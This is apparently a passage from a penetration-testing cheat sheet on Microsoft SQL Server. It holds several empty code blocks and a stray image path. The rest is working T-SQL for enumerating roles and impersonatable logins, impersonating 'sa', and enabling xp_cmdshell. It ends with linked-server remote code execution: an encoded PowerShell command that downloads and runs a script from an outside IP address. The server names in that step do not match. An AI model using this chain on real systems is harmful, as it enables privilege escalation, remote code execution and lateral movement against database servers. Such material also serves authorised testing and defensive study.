 ```powershell
```


##### Prerequisites



Normal
```powershell

```

Kerberos Only
```powershell

```

## MSSQL

### General

Enumerate login info
```
SELECT SYSTEM_USER;
```

Enumerate database username.
```
SELECT USER_NAME();
```

Enumerate if user is member of Public or Sysadmin. If role is one then true.

```
SELECT IS_SRVROLEMEMBER('public');
SELECT IS_SRVROLEMEMBER('sysadmin');
```

Get logins that we can impersonate
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'; 
```

Enumerate linked servers
```
EXEC sp_linkedservers;
```

### PrivEsc/Impersonation
```
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```

RCE via first link
```
EXECUTE AS LOGIN = 'sa';
EXEC sp_serveroption 'SQL03', 'rpc out', 'true';
EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT [SQL27] 
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [SQL27] 
#ensure to encode UTF-16LE and b64 encode
EXEC ('xp_cmdshell ''powershell -enc SQBFAFgAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABzAHkAcwB0AGUAbQAuAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA1AC4AMgAwADEALwByAHUAbgAuAHAAcwAxACcAKQApAA==''') AT [SQL27]
```
